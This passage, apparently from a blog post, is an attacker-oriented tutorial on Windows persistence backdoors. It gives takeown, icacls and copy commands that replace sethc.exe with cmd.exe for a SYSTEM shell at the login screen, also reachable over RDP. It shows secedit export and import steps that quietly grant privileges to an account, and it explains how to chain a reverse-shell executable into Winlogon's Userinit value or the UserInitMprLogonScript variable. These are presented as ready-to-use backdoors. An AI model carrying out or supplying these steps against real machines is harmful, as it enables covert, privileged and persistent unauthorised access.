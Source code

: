 
## Login screen
As a backdoor we could change some executables which windows will launch if you do specific action. For example, if you press Shift 5 times, it will execute `C:\Windows\System32\sethc.exe` if we change that binary to something else, windows will execute it.
Get your right like this and copy the payload:
```
C:\> takeown /f c:\Windows\System32\sethc.exe

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```
Also it can be done with `C:\Windows\System32\Utilman.exe`, which it `Ease of Access` option in Windows login screen.
Thats nice backdoors, coz binary will execute with SYSTEM right, and you could reach screen not only phisycaly, but also with RDP.


# Something cool
Not so known stuff (at least for me) is `secedit` which config and store which accounts and SID holds which privilege. So we could edit it!

First, export:
```
secedit /export /cfg config.inf
```

![1]({{ site.baseurl }}/assets/img/posts/config-inf.png){:class="imghalf"}

After editing, (just add your user at the right side of the privilege, separated by comma) we could convert and import in back.

```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```
And no user at `net users`, nice.

## Winlogon
Winlogon is the process for loading user profile. It will be executed every login.
It uses 
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`

`Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
`shell` points to the system's shell, which is usually `explorer.exe`.

We could specify more executables in those parameters besides default one separated by comma, and everyone will be executed!
`C:\Windows\system32\userinit.exe, C:\Windows\revshell.exe`

Also, `userinit.exe` executes everything in user environment variable `UserInitMprLogonScript`. And we could change it.
Go to `HKCU\Environment` and make `UserInitMprLogonScript` variable here, drop path to the payload as a value.
Note: there is no way in will work for every user, except if you change that parameter for every user specificly.
